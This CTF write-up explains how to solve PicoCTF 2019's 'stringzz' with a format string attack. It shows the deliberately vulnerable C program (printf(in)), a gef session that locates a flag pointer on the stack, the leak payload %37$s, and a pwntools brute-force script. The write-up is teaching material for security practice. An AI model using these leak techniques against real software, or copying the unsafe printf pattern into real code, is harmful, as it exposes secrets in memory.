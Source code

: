 ```yaml
---
title: Leak the stack
description: Leak the stack using a format string attack.
---
```


# Format string - Leak the stack

## Summary

Two ways :

1. Find the exact offset of the data we want to leak.
2. Bruteforce the stack until we get the right offset.

Both methods work very well, only the first is more instructive.

## Challenge

### Statement

!!! note ""
    Challenge : `stringzz` from PicoCTF 2019.

Use a format string to pwn this [program](https://2019shell1.picoctf.com/static/31d401db5c499308034d1795794324ad/vuln) and get a flag.

### Source code

```c linenums="1"
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAG_BUFFER 128
#define LINE_BUFFER_SIZE 2000

void printMessage3(char *in)
{
  puts("will be printed:\n");
  printf(in);
}
void printMessage2(char *in)
{
  puts("your input ");
  printMessage3(in);
}

void printMessage1(char *in)
{
  puts("Now ");
  printMessage2(in);
}

int main (int argc, char **argv)
{
    puts("input whatever string you want; then it will be printed back:\n");
    int read;
    unsigned int len;
    char *input = NULL;
    getline(&input, &len, stdin);
    //There is no win function, but the flag is wandering in the memory!
    char * buf = malloc(sizeof(char)*FLAG_BUFFER);
    FILE *f = fopen("flag.txt","r");
    fgets(buf,FLAG_BUFFER,f);
    printMessage1(input);
    fflush(stdout);

}
```

## Answer

The content of the file is located inside the heap, but there is a pointer to the content of the `flag.txt` file inside the stack. So by using `%s`, the format string will display the string pointed by this address.

(For testing purposes, I created the `flag.txt` file with the content `FLAG{gg}`.)

We can find this address in the stack by setting a breakpoint on the call of the vulnerable `printf` function.

```
gef➤  disass printMessage3
Dump of assembler code for function printMessage3:
   0x000006ed <+0>:     push   ebp
   0x000006ee <+1>:     mov    ebp,esp
   0x000006f0 <+3>:     push   ebx
   0x000006f1 <+4>:     sub    esp,0x4
   0x000006f4 <+7>:     call   0x5f0 <__x86.get_pc_thunk.bx>
   0x000006f9 <+12>:    add    ebx,0x18bb
   0x000006ff <+18>:    sub    esp,0xc
   0x00000702 <+21>:    lea    eax,[ebx-0x1684]
   0x00000708 <+27>:    push   eax
   0x00000709 <+28>:    call   0x570 <puts@plt>
   0x0000070e <+33>:    add    esp,0x10
   0x00000711 <+36>:    sub    esp,0xc
   0x00000714 <+39>:    push   DWORD PTR [ebp+0x8]
   0x00000717 <+42>:    call   0x520 <printf@plt>
   0x0000071c <+47>:    add    esp,0x10
   0x0000071f <+50>:    nop
   0x00000720 <+51>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00000723 <+54>:    leave
   0x00000724 <+55>:    ret
End of assembler dump.
gef➤  b *(printMessage3+42)
- Breakpoint 1 at 0x717
```

Let's run the program and find where the flag is located using the command `grep`.

```
gef➤  grep "FLAG{gg}"
[+] Searching 'FLAG{gg}' in memory
[+] In '[heap]'(0x56558000-0x5657a000), permission=rw-
  0x56558a40 - 0x56558a4a  →   "FLAG{gg}\n"
  0x56558c10 - 0x56558c1a  →   "FLAG{gg}\n"
```

As you can see, the content of `flag.txt` is stored on the heap, but lets try to find `0x56558a40` or `0x56558c10` in the stack.

```
gef➤  x/50xw $sp
0xffffd1c0:     0x565585b0      0x0000000a      0x00000004      0x565556f9
0xffffd1d0:     0x00000001      0x56556fb4      0xffffd1f8      0x56555755
0xffffd1e0:     0x565585b0      0x56555995      0x56555993      0x56555731
0xffffd1f0:     0x00000001      0x56556fb4      0xffffd218      0x5655578e
0xffffd200:     0x565585b0      0x56555993      0x00000001      0x5655576a
0xffffd210:     0x00000001      0x56556fb4      0xffffd268      0x5655584d
0xffffd220:     0x565585b0      0x00000080      0x56558ad0      0x565557ae
0xffffd230:     0x00000001      0xf7fddab0      0x00000000      0xffffd324
0xffffd240:     0xf7f993bc      0x56556fb4      0xffffd32c      0x00000078
0xffffd250:     0x565585b0    > 0x56558a40 <    0x56558ad0      0x0b337100
0xffffd260:     0xffffd280      0x00000000      0x00000000      0xf7dc7a0d
0xffffd270:     0x00000001      0x565555b0      0x00000000      0xf7dc7a0d
0xffffd280:     0x00000001      0xffffd324
gef➤  x/s 0x56558a40
0x56558a40:     "FLAG{gg}\n"
```

As you can see, there is our address inside `> <`.
`0x56558a40` is a the 37th place in the stack, so we can retrieve it using `%37$s`.

```
$ ./vuln
input whatever string you want; then it will be printed back:

%37$s
Now
your input
will be printed:

FLAG{gg}
```

---

The other way to solve this challenge is using bruteforce :

Source code (solve.py) :

```python
#!/usr/bin/env python3
from pwn import process, log, context

PROGRAM = "./vuln"
DELIM = b"input whatever string you want; then it will be printed back:\n"

data = b""
i = 0
while b"FLAG{" not in data:
    log.info(f"Trying n°{i} ...")

    with context.local(log_level="error"):
        proc = process(PROGRAM)
        proc.sendlineafter(DELIM, f"%{i}$s".encode())
        proc.recvuntil(b"will be printed:\n\n")
        data = proc.recvall()

    log.info(f"Data : {data}")
    i += 1
```

Execution :

```
$ echo 'FLAG{gg}' > flag.txt
$ python3 solve.py
[*] Trying n°0 ...
[*] Data : b'%0$s\n'
[*] Trying n°1 ...
[*] Data : b''
[*] Trying n°2 ...
[*] Data : b''
[*] Trying n°3 ...
[*] Data : b'\x81\xc3\xbb\x18\n'
[...]
[*] Trying n°35 ...
[*] Data : b''
[*] Trying n°36 ...
[*] Data : b'%36$s\n\n'
[*] Trying n°37 ...
[*] Data : b'FLAG{gg}\n\n'
```